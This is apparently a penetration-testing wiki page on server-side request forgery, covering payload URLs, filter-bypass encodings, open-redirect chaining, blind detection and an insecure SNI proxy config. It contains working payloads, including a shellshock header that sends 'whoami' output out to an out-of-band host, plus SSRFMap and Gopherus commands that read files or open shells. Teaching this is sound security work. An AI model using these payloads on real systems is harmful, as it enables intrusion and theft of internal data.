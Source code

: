 # SSRF (Server-Side Request Forgery)

## Theory

A Server-Side Request Forgery (a.k.a. SSRF) is a web vulnerability allowing attackers to make the server-side application do certain requests. This vulnerability can lead to unauthorized actions, Sensitive Information Disclosure and even RCE (Remote Code Execution).

{% hint style="info" %}
SSRF is very similar to [file inclusion](../../web/inputs/file-inclusion/) since both vulnerabilities can be exploited to access external or internal content. The difference resides in the fact that file inclusion vulnerabilities rely on code inclusion functions (e.g. `include()` in PHP) while SSRF ones on functions that only handle data (e.g. `fopen()` in PHP). RFI vulnerabilities will lead to RCE much more often and easily that SSRF ones.
{% endhint %}

## Practice

Testers need to find input vectors and fields that could be used for publishing or importing data from a URL (e.g. `GET` and `POST` parameters).

With `http://some.website/index.php?url=https://someother.website/index.php`, and `url` being the vulnerable parameter, the following basic payloads can help a tester fetch content of files, scan ports, access filtered resources and so on.

```
file://PATH/TO/FILE
http://127.0.0.1:80/admin
http://127.0.0.1:80
http://127.0.0.1:22
ldap://127.0.0.1:389/%0astats%0aquit
dict://{attacker_url}:11111/
sftp://{attacker_url}:11111/
tftp://{attacker_url}:12346/TESTUDPPACKET
```

To scan for a specific range of private IP addresses (other than `localhost`), Use burp suite intruder that can fetch all of IP addresses in the internal network that is targeted.&#x20;

### Bypassing filters

In order to conduct SSRF attacks properly, there may be use cases where filters need to be bypassed

{% tabs %}
{% tab title="Blacklist input filters" %}
Some applications block input containing hostnames like `127.0.0.1` and `localhost`, or sensitive URLs like `/admin`. In this situation, you can bypass the filter using various techniques :

* Using an alternative IP representation such as :&#x20;

<pre><code>http://127.1
http://0
http:@0/
http://0.0.0.0:80
http://[::]:80/
http://[0000::1]:80/
<strong>http://2130706433 # Decimal version of localhost
</strong>http://0x7f000001/ # Hexadecimal version of localhost
</code></pre>

* Obfuscating string using URL encoded, even double URL encoded sometimes.
* Registered your own domain name that resolved the `localhost` IP address.

{% hint style="info" %}
The following "URL Format Bypass" cheatsheet gives lots of examples to bypass filters: [https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/ssrf-server-side-request-forgery/url-format-bypass.md](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/ssrf-server-side-request-forgery/url-format-bypass.md)
{% endhint %}
{% endtab %}

{% tab title="Whitelist input filters" %}
## Pattern validation

In this context, a whitelist-based input filter can be used to restrict the types of URLs that a user can submit. For example, the filter might only allow URLs that match the whitelist pattern. In this situation, you can bypass the filter using various techniques :&#x20;

* Using the `@` character in a URL like this :&#x20;
  * `https://{url}@{target_host}`
* Using the `#` character to indicate that the first field is interpreted as a URL fragment like this :&#x20;
  * `https://{target_host}#{url}`
* Using the DNS name to place required input into a fully-qualified DNS like this :&#x20;
  * `https://{url}.{target_host}`
* URL encode, even double URL encoding this special character to bypass the filter
* Use a combination of all this technique like using the `#@` characters.



## [ORED (Open Redirect)](ssrf-server-side-request-forgery.md#ored-open-redirect-combination) combination

In the case the argument is strictly validated and doesn't allow for bypasses relying on pattern validation, if one of the whitelisted app's pages is vulnerable to an [ORED (Open Direct)](ssrf-server-side-request-forgery.md#ored-open-redirect-combination), it could be used to make the SSRF possible anyway.

The server would request the ORED-vulnerable page through the SSRF vulnerability, and it would then be redirected to the actual target page, thanks to the lesser-filtered Open Redirect.

<figure><img src="../../.gitbook/assets/SSRF.png" alt=""><figcaption></figcaption></figure>
{% endtab %}
{% endtabs %}

### Blind SSRF vulnerabilities <a href="#blind-ssrf-vulnerabilities" id="blind-ssrf-vulnerabilities"></a>

A blind SSRF vulnerability is a type of vulnerability that arises when an application makes a request to an external resource using user-supplied input, but the application does not return the response to the user.&#x20;

It can be achieved to gain full RCE (Remote Command Execution).

In order to identify a potential SSRF vulnerability and exploit, multiple tools can be used to pingback the request and see the response.

* [Burp Suite Collaborator](https://portswigger.net/burp/documentation/collaborator)
* [pingb](http://pingb.in/)
* [canarytokens](https://canarytokens.org/generate)
* [interactsh](https://github.com/projectdiscovery/interactsh)
* [webhook](http://webhook.site/)
* [ssrf-sheriff](https://github.com/teknogeek/ssrf-sheriff)
* An extension to add to Burp Suite, called "[collaborator everywhere](https://portswigger.net/bappstore/2495f6fb364d48c3b6c984e226c02968)", that adds non-invasive payloads into outgoing HTTP requests' headers in order to detect SSRF vulnerabilities if and when the target pingbacks to the collaborator endpoint.

{% hint style="info" %}
An effective way to abuse blind SSRF is to combine it with a shellshock vulnerability ([CVE-2014-6271](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2014-6271)). See the following resource for more details: [PortSwigger Lab: Blind SSRF with shellshock](https://portswigger.net/web-security/ssrf/blind/lab-shellshock-exploitation). The "[collaborator everywhere](https://portswigger.net/bappstore/2495f6fb364d48c3b6c984e226c02968)" extension can be used to detect and abuse this as well.
{% endhint %}

### SSRF via SNI data from certificate

The configuration below is insecure and allows to connect to an arbitrary backend, since the SNI field value is used directly as the address of the backend.

```json
stream {
    server {
        listen 443; 
        resolver 127.0.0.11;
        proxy_pass $ssl_preread_server_name:443;       
        ssl_preread on;
    }
}
```

With this insecure configuration, it is possible to **exploit the SSRF vulnerability simply by specifying the desired IP or domain name in the SNI field**. For example, the following command would force the server to connect to `internal.host.com`:

```bash
openssl s_client -connecttarget.com:443 -servername "internal.host.com" -crlfbash
```

> More information about this on [Hacktricks](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery#ssrf-via-sni-data-from-certificate).

### SSRF with Command Injection

It is possible to use SSRF that return the command output inside an out of band connection as follows.

```
url=http://zad8nb8tb7dst2yohw0br7rr6ich07ow.oastify.com?`whoami`
User-Agent: () { :; }; /bin/nslookup $(whoami).zad8nb8tb7dst2yohw0br7rr6ich07ow.oastify.com
```

[SSRFMap](https://github.com/swisskyrepo/SSRFmap) (Python) is a tool used to ease the exploitation of SSRFs. [Gopherus](https://github.com/tarunkant/Gopherus) (Python) can be used as well to gain RCE (Remote Code Execution) by generating Gopher payloads.

<pre class="language-bash"><code class="lang-bash"># using SSRFMap
python3 ssrfmap.py -r data/request.txt -p url -m readfiles
<strong>
</strong><strong># using Gopherus
</strong>gopherus --exploit mysql # It only asks username of the MySQL user
	 --exploit postgresql # It only asks username of the Postgres user and database name
	 --exploit fastcgi # It only asks for a file which must be present in the victim system(preferable .php file)
	 --exploit redis # Get a reverse or php shell to overwrite the file in the system
	 --exploit zabbix # If port 10050 is open and EnableRemoteCommands = 1, then it is possible to run shell command
	 --exploit pymemcache # Python deserialization issue that lead to RCE
	 --exploit rbmemcache # Ruby deserialization issue that lead to RCE
	 --exploit phpmemcache # PHP deserialization issue that lead to RCE
	 --exploit dmpmemcache # Dump memory cache content
	 --exploit smtp # If port 25 is open and we can access it then, we can send message to anyone as victim user by generating email payload
</code></pre>

## References

{% embed url="https://portswigger.net/web-security/ssrf" %}

{% embed url="https://portswigger.net/web-security/ssrf/blind" %}

{% embed url="https://owasp.org/www-community/attacks/Server_Side_Request_Forgery" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery" %}

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery" %}
